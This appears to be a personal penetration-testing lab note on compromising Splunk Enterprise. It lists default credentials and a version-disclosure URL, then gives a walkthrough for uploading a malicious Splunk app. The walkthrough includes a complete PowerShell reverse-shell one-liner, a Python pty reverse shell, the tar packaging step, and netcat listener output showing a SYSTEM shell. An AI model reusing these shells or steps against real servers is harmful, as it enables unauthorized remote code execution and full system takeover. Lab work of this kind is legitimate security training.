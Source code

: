 
### Enumberation

The Splunk Enterprise trial converts to a free version after 60 days, which doesn’t require authentication.

Older systems use the default creds as `admin:changeme`

Navigating to the following URL can give us the version number of Splunk: `https://10.129.201.50:8000/en-GB/manager/launcher/apps/local`

![[Pasted image 20250202153350.png]]

### Attack

Using the following, we can get a reverse shell:

```bash
git clone https://github.com/0xjpuff/reverse_shell_splunk.git
```
#### Windows

Update run.ps1 with the IP and port details:

```bash
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('<Your_IP>',<Your_Port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

And then tar the file

```bash
tar -cvzf updater.tar.gz reverse_shell_splunk/
reverse_shell_splunk/
reverse_shell_splunk/default/
reverse_shell_splunk/default/inputs.conf
reverse_shell_splunk/bin/
reverse_shell_splunk/bin/run.bat
reverse_shell_splunk/bin/rev.py
reverse_shell_splunk/bin/run.ps1
```

![[Pasted image 20250202154437.png]]

Select the .tar.gz file and immediately and reverse shell should be obtained:

```bash
sudo nc -lvp 4443        
Listening on 0.0.0.0 4443
Connection received on 10.129.201.50 50992
  
PS C:\Windows\system32> whoami
nt authority\system
```

#### Linux

Pretty much the same process as windows, but update the rev.py instead:

```python
import sys,socket,os,pty

ip="<Your_IP>"
port="<Your_Port"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```


